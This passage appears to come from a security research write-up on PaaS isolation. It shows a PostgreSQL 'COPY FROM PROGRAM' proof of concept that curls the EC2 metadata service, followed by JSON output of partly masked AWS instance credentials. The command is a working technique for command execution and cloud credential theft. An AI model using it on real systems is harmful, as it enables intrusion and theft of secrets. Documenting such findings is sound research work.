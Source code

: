     ![](../images/paas-isolation/ssrf.png)

While no IAM role was explicitly listed under the usual /iam/security-credentials/ path—indicating that no IAM role was attached to the instance. 

!!! example ""
    ```sql
    COPY poc FROM PROGRAM 'curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance';
    SELECT * FROM poc;
    ```
    >
    ```json
    {
      "Code": "Success",
      "LastUpdated": "2022-08-15T10:39:09Z",
      "Type": "AWS-HMAC",
      "AccessKeyId": "ASIA5XXXXXXXXTJLPXX5",
      "SecretAccessKey": "r3AySnEXXXXX8TPzH3NyXXXXX0rZPDp8XXXXX",
      "Token": "IQoJb3JpZ2luX2VjEFM...XXXXXX",
      "Expiration": "2022-08-15T16:59:52Z"
    }
    ```
